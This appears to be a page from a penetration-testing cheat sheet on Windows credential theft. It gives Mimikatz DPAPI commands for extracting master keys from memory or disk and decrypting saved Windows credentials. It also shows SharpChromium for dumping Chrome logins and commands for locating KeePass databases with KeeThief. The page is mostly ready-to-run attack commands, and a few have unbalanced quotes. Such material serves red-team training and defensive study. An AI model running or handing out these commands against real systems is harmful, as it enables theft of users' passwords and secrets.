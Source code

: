#### Find master encryption key ID
- The ```pbData``` field contains the encrypted data and the ```guidMasterKey``` contains the GUID of the key needed to decrypt it. 
```
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\<USER>\AppData\Local\Microsoft\Credentials\<BLOB ID>"'
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID> -Hidden
```

#### Get master encryption key
```
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID>\<ID> /rpc"
```

#### Get master encryption keys from memory
```
Invoke-Mimikatz -Command '"sekurlsa::dpapi"'
```

#### Get MasterKey with User's Password
```
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID>\<ID> /sid:<USER SID> /password:<PASSWORD> /protected
```

#### Decrypt credential
```
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Credentials\<ID> /masterkey:<MASTERKEY>"'
```

### Chrome
#### List SQLlite database
- A non-null Login Data file is a good indication that credentials are saved in here
```
ls C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\Default
```

#### Decrypt data
- https://github.com/djhohnstein/SharpChromium
```
.\SharpChromium.exe logins
```

## KeePass
- https://github.com/GhostPack/KeeThief
#### Enumeration
```
type %APPDATA%\KeePass\KeePass.config.xml
tasklist | findstr /I keepass
dir /s "C:/" | findstr "KeePass"
Get-Process keepass
```
